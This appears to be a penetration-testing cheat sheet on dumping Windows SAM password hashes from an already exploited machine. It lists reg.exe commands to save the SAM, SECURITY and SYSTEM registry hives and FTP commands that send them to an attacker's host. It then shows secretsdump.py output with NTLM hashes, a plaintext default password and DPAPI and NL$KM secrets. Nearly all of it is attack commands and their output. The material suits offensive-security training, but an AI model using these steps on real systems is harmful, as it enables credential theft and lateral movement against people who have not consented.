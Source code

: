 # Window's SAM Hashes
This is similar to the `hashdump` command in the (frowned-upon-by-OffSec Metasploit Framework).
## Get SAM, SECURITY, and SYSTEM
In exploited Windows system, do the following:
```
C:\> reg.exe save hklm\sam sam
C:\> reg.exe save hklm\security security
C:\> reg.exe save hklm\system system
```
Then, get these files to your attacker box. E.g.: Using FTP:
```
ftp> bin
200 TYPE is now 8-bit binary
ftp> put system
200 PORT command successful
ftp> put security
200 PORT command successful
ftp> put sam
200 PORT command successful
```
The `bin` command is VERY important and the next step will not work if not used. Next, we run the Impacket Python script, `secretsdump.py` like so:
```
Impacket v0.9.18-dev - Copyright 2002-2018 Core Security Technologies

[*] Target system bootKey: 0x371c6e102028a5b0e79ccc268d721c26
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8f53ac7dfad4fe8c3e632e6d3becdccd:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:11e102c7f485f3e21f5ca486c7d85b4c:::
kevin:1000:aad3b435b51404eeaad3b435b51404ee:3164f206290117d74e9fa582139828d4:::
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:173cf47d45ff85470ccd9c4bd609c518:::
trevelyn:1003:aad3b435b51404eeaad3b435b51404ee:7213b1af7ba9bfea55d6305a0a6686f5:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DefaultPassword 
(Unknown User):r4UBwM8sSx
[*] DPAPI_SYSTEM 
 0000   01 00 00 00 CC 5F BF 2F  58 69 C0 13 E9 00 2B A9   ....._./Xi....+.
 0010   E7 95 6D 7C 68 4B 7C C1  23 E2 DE 6F 48 70 31 8E   ..m|hK|.#..oHp1.
 0020   96 26 83 EC 16 98 BD 9F  ED 01 EE 7C               .&.........|
DPAPI_SYSTEM:01000000cc5fbf2f5869c013e9002ba9e7956d7c684b7cc123e2de6f4870318e962683ec1698bd9fed01ee7c
[*] NL$KM 
 0000   BC 28 86 EE C0 B6 91 0A  8C 2D 84 63 A0 BE 36 B7   .(.......-.c..6.
 0010   56 38 88 99 72 53 44 DC  51 CE F5 51 D1 4E 37 B8   V8..rSD.Q..Q.N7.
 0020   2E 28 23 C5 70 BB 5E EB  13 38 9D 42 8E B1 17 6A   .(#.p.^..8.B...j
 0030   E2 89 4E CF AB 6F 73 CE  1D 0E 8B BA 58 D0 1E 72   ..N..os.....X..r
NL$KM:bc2886eec0b6910a8c2d8463a0be36b756388899725344dc51cef551d14e37b82e2823c570bb5eeb13389d428eb1176ae2894ecfab6f73ce1d0e8bba58d01e72
[*] Cleaning up... 
```
